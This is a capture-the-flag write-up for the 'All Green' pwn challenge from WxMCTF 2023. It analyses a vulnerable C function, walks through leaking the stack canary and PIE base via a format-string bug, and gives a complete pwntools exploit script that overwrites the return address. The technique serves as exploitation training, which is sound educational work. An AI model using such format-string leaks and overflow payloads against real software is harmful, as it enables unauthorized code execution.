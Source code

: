 # All Green


> This problem is greener than grass. (which you should probably go touch)
> 
> nc toady.nyiyui.ca 2000


## Static Analysis

Looking at the provided source code, we can see that in the `func` function, there is both a buffer overflow via the `gets` function and a format string vulnerability via the usage of `printf` with no explicit format string. 

```c
void func(){
    printf("Every protection is enabled. Good luck.\n");
    char buf[0x20];
    gets(buf);
    printf(buf);
    printf("\n");
    gets(buf);
}
```

The program also hints to there being all protections enabled for the binary as we can see via the `checksec` command.

```
[*] 'WxMCTF 2023/pwn/All Green/green'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Finally, we have a win function _(albeit there being some additional checks)_ which we can easily return to.

## Exploit Strategy

In order to win, we want to call an offset of the win function to read the flag with minimum effort.

Before we can achieve that, we have to first leak our canary and leak the ELF address so that we can bypass both **CANARY** and **PIE**.

By doing some trial and error, we can find our offsets of `main+81` and `canary` to be at `%19$p` and `%15$p` respectively.

If we look at the disassembly of `finalcheck`, we want to find an address that is just before the `getenv` and after the whole bunch of annoying checks.

```
   0x5655634d <+73>:    lea    eax,[ebx-0x1fac]
   0x56556353 <+79>:    push   eax
   0x56556354 <+80>:    call   0x56556110 <getenv@plt>
   0x56556359 <+85>:    add    esp,0x10
   0x5655635c <+88>:    mov    DWORD PTR [ebp-0xc],eax
```

which we can find to be `finalcheck+73` which sets up the argument to `getenv`.

Finally, we also need to fix up `EBX` and `EBP` values before returning to `finalcheck+73` since `EBX` is used as a function pointer and `EBP` is needed to store variables on the stack.

We can write our exploit code as such

```python
from pwn import *

elf = ELF("./green")
p = process("./green")

p.sendline(b"%15$p.%19$p")
p.recvline()

# resolve leaks
canary, leak = [int(i, 16) for i in p.recvline().strip().split(b".")]
elf.address = leak - 81 - elf.sym.main

if args.GDB:
    gdb.attach(p)

payload = fit(
    {
        0x20: p32(canary),                      # FIX CANARY
        0x28: p32(elf.address + 0x3fb4),         # FIX EBX
        0x2C: p32(elf.address + 0x4200),        # FIX EBP
        0x30: p32(elf.sym.finalcheck + 73),     # WIN
    }
)
p.sendline(payload)

p.interactive()
```
